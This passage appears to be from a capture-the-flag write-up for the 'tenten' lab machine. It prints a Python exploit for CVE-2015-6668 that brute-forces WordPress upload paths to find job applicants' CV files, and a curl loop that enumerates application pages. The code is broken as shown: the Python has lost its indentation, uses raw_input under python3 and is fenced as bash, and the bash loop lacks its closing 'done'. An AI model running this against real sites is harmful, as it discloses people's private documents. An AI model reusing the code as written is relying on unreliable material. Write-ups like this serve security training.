 
exploit.py

```bash
import requests

print("""
CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Author: Evangelos Mourikis
Versions: <=0.7.25
""")

website = raw_input('Enter a vulnerable website: ')
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017, 2023):
for i in range(1, 13):
for extension in {'doc', 'pdf', 'docx'}:
URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
req = requests.get(URL)
if req.status_code == 200:
print("[+] URL of CV found! " + URL)
```

We give the script execution permissions:

```bash
chmod +x exploit.py
```

Then, we run it using:

```bash
python3 exploit.py
```

The script will prompt for the target website URL and the name of the file to search for.

We found the file name by running a Bash script that performs iterative requests using `curl`.

### Bash Script to Search for Uploaded Files

```bash
for i in $(seq 1 20); do
  echo -n "$i: ";
  curl -sL http://tenten.htb/index.php/jobs/apply/$i/ | grep '<title>';
```

File Found
File name: HackerAccessGranted.jpg

Discovered on page: 13

We run the exploit script again, this time using the file name `HackerAccessGranted` along with the website URL.
